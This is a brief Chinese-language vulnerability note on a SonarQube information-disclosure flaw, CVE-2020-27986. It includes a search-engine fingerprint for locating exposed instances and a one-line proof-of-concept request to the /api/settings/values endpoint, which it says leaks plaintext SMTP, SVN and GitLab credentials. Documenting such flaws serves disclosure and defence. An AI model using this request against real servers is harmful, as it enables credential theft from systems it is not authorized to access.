 # SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下

![](images/202202101933673.png)



## 漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```



![](images/202202101933276.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息



![](images/202202101934123.png)



## 